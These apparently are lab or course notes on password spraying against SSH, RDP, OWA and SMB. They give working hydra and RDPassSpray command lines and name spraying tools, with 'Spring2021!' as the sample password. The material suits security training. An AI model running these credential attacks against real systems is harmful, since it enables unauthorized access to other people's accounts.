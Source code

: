 A password spraying attack targets many usernames using one common weak password, which could help avoid an account lockout policy.

To be successful in the password spraying attack, we need to enumerate the target and create a list of valid usernames (or email addresses list).

Next, we'll apply the password spraying technique using different scenario:
- SSH
- RDP
- Outlook web access (OWA) portal
- SMB

Assuming that we have already enumerated the system and created a valid username list.
#### SSH
Write a Python script [[Season, Year, Special Character]] to generate a password list.
```
# Using a single password
hydra -L username.txt -p PASSWORD ssh://IP

# Using a password list
hydra -L username.txt -P password.txt ssh://IP
```

#### RDP
We can use `RDPassSpray` tool to password spray against RDP.

**Single Host**
```
python3 RDPassSpray.py -u victim -p Spring2021! -t IP:3026
```

**Active Directory Environment**
```
python3 RDPassSpray.py -U username-list -p Spring2021! -d THM-labs -T RDP_SERVERS-LIST
```

#### Outlook Web Access (OWA) Portal
Tools:
- [SprayingToolkit](https://github.com/byt3bl33d3r/SprayingToolkit) (atomizer.py)
- [MailSniper](https://github.com/dafthack/MailSniper)

#### SMB
Tool:
- Metasploit (auxiliary/scanner/smb/smb_login)

